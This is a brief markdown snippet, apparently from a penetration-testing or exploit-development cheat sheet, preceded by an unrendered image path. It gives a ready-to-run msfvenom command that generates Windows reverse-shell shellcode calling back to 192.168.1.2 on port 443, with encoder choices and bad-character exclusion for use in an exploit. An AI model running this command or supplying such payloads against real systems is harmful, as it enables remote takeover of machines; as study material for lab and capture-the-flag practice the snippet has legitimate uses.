 ## Generate reverse shell shellcode payload

Normally use `x86/shikata_ga_nai` but if that is not stable then use `x86/xor_dynamic`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=thread -e x86/xor_dynamic  -b "\x00\x0d" -f python
```

